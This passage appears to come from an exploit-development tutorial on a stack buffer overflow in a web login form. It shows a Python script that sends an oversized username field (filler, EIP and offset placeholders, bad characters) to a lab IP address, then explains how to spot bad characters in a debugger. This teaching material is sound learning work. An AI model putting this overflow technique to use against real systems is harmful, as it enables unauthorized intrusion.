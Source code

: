 ```python
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
  print "\nSending buffer overflow..."
  
  filler = "A" * 780
  eip = "B" * 4
  offset = "C" * 4

  inputBuffer = filler + eip + offset + badchars
  
  content = "username=" + inputBuffer + "&password=A"


  buffer = "POST /login HTTP/1.1\r\n"
  buffer += "Host: 192.168.222.10\r\n"
  buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += "Accept-Language: en-US,en;q=0.5\r\n"
  buffer += "Referer: http://192.168.222.10/login\r\n"
  buffer += "Connection: close\r\n"
  buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += "Content-Length: "+str(len(content))+"\r\n"
  buffer += "\r\n"
  
  buffer += content

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.222.10", 80))
  s.send(buffer)
  
  s.close()
  
  print "\nSuccess"
  
except:
  print "\nCould not connect!"
```

After this is sent and we encounter the crash we simply need to select the ESP register and select Follow in Dump to show the output of these characters. As we can see from the screenshot below we made it as far as the 0x09 character before encountering a bad character. As the next character, 0x0A, represents a line feed which terminates HTTP field similar to a carriage return this character will not be able to be used in our shellcode as it will not be present when passed to the program. We can continue this trial and error process until we have removed all bad characters.

![[imun_hex_dump.png]]
